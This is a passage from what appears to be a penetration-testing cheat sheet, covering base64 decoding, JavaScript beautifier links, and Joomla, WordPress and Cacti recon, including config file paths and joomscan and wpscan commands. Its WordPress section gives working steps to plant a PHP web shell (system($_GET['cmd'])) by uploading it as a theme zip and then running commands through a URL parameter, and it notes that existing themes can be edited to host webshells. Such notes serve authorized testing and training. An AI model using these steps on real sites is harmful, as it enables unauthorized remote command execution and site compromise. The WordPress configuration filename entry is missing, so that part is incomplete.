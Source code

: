 Decode base64 standard input
```
base64 -d
<paste base-64 encoded text>
^D
```

Javascript deobfustication
```
http://www.javascriptbeautifier.com/
http://jsbeautifier.org/
http://vitzo.com/en/tools/javascript/javascript-beautifier
```

------------------------------------------------------------------------------------------------------------------
## Specific Web applications

#### Joomla
```
Joomla default database configuration filename
<web-app-path>/configuration.php
Scanning Joomla! for plugins and versions
/pentest/web/scanners/joomscan/joomscan.pl -u <target-and-joomla-path>
/pentest/enumeration/web/cms-explorer  -url <target-and-joomla-path> -type joomla
```

#### WordPress
```
WordPress default database configuration filename
<web-app-path>
WordPress default login page
<web-app-path>/wp-login.php
WordPress plugins
<web-app-path>/wp-content/plugins
Scanning WordPress for plugins and versions
/pentest/web/wpscan/wpscan.rb --url <target-and-wordpress-path&gt; --proxy <proxy-addr:port> -enumerate [u|p|v|t]
/pentest/enumeration/web/cms-explorer  -url <target-and-wordpress-path> -type wordpress
Newer WP: "Themes" can be uploaded as zip files by WP administrators i.e. you:
mkdir wpx
vi wpx/cmd.php
cat wpx/cmd.php
<?php system($_GET['cmd']) ?>
zip -r wpx.zip wpx
upload wpx.zip via web interface as an installed theme
Command execution access is via:
<web-app-path>/wp-content/plugins/wpx/cmd.php?cmd=<command(s)>
Older WP: Webshells can be added by editing exiting files/themes via the web interface or by enabling file upload and permitting the valid file extension (e.g. .php)
```

#### Cacti
Cacti default database configuration filename
```
<web-app-path>/include/config.php
```
